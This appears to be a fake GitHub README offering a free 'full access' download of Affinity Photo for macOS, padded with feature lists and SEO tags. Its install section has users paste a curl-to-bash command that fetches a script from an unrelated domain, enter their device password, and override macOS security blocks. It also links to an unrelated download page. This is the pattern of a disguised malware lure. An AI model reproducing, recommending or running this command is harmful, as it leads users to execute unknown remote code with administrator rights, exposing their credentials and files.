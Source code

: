 <p align="center">
  <img src="https://i.ibb.co/XZyc8HsX/1670945105-icon.webp" width="350" alt="Affinity Photo macOS Banner" />
</p>

<h1 align="center">Affinity Photo for macOS</h1>

<p align="center">
  🖼️ Professional photo editing made fast. Full PSD support, non-destructive editing, RAW processing, and ultra-fast performance on macOS.  
  <br><br>
  ✅ Native Apple Silicon Support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/262" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20AFFINITY%20PHOTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Affinity Photo for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/5hX1CthY/1670944783-1.webp" alt="Affinity Photo UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Affinity Photo for macOS?

**Affinity Photo** is a high-performance image editing software built specifically for macOS. It offers professional-level tools for photo manipulation, retouching, and compositing — all with smooth performance and full file compatibility.

With real-time editing, RAW development, advanced brush engines, HDR merge, panorama stitching, and PSD import/export, Affinity Photo is trusted by photographers, designers, and digital artists alike. Fully optimized for Apple Silicon and modern macOS versions.

---

## ✅ Why Choose Affinity Photo?

- 🖌️ **Retouch, Repair & Clone with Precision**  
- 📸 **RAW Development & Batch Processing**  
- 🧠 **PSD Import/Export with Layer Fidelity**  
- ✨ **Non-Destructive Adjustment Layers**  
- 🧷 **Masking, Blending, and Compositing Tools**  
- 🎨 **Custom Brush Engine with Real-Time Effects**  
- 🍎 **Optimized for M1, M2, and M3 Macs**  
- 📐 **CMYK, LAB, HDR, and 32-bit Workflow Support**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/k6KyMPdt/1670944784-2.webp" alt="Layered Compositing View" />
  <br><br>
  <img src="https://i.ibb.co/DDqh8QHj/1670944785-3.webp" alt="RAW Development Panel" />
</p>

---

## 🚀 Key Features

- Real-time editing engine  
- Powerful RAW processor  
- Unlimited layers, masks, and adjustments  
- Panoramas, HDR, and focus stacking  
- Pixel-accurate selections  
- Professional brush dynamics  
- Seamless PSD compatibility  
- Dedicated performance on macOS

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Affinity Photo manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Editor-PSD+RAW+Layers+Brushes-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Optimized-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Affinity Photo – Pro Editing, Mac Optimized

Thanks for using **Affinity Photo for macOS**.  
Power meets precision in one fast, offline image editor.

---

## 🧭 Usage Context

Affinity Photo runs locally without background sync or cloud reliance.  
Best for photographers, illustrators, content creators, and editors needing maximum control and full offline access.  
All work remains on your machine.

---

## 🔍 Tags

```text
affinity photo mac download, affinity photo editor for macbook, download affinity photo for m1 m2 mac, psd editor macos alternative photoshop, mac photo editor with raw support, best offline image editor for mac, apple silicon optimized image app, layer based photo editor mac sonoma, hdr panorama stacking mac editor, digital art software macbook pro, affinity photo brush engine macos, non destructive editing app mac, macos graphics design retouch tool, affinity photo full version mac, adobe photoshop alternative for mac
